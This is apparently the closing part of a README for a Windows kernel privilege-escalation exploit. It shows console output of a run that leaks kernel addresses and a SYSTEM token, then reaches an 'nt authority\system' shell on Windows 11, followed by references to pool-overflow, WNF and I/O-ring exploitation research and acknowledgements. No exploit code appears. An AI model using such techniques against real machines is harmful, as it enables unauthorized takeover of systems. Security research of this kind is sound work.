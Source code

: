 ```
[*] original_regBufferEntry: ffffe309f1b1a1a0
[*] pipeAttributeFlink: ffffd10a472b01d0
[+] found target handle
[*] targetHandle: 00000211216BC4D0
[*] ioring index: 425
[*] fileObject: ffffe309f134d7e0
[*] base of npfs.sys: fffff80631660000
[*] base of ntoskrnl.exe: fffff80628c00000
[*] system EPROCESS: ffffe309ea4c2040
[*] system TOKEN: ffffd10a3a246040
[*] curpid: 21c8
Microsoft Windows [Version 10.0.22631.4460]
(c) Microsoft Corporation. All rights reserved.

C:\Users\unpriv>whoami
nt authority\system

C:\Users\unpriv>exit
calling NtUpdateWnfStateData returned successfully
PS C:\Users\unpriv>
```

## References

* https://www.sstic.org/media/SSTIC2020/SSTIC-actes/pool_overflow_exploitation_since_windows_10_19h1/SSTIC2020-Article-pool_overflow_exploitation_since_windows_10_19h1-bayet_fariello.pdf
* https://www.nccgroup.com/us/research-blog/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/
* https://windows-internals.com/one-i-o-ring-to-rule-them-all-a-full-read-write-exploit-primitive-on-windows-11/

## Acknowledgements

* [@cbayet](https://x.com/onlytheduck)
* [@paulfariello](https://x.com/paulfariello)
* [@alexjplaskett](https://x.com/alexjplaskett)
* [@yarden_shafir](https://x.com/yarden_shafir)
* [@InfosecIITR](https://x.com/InfoSecIITR)
 
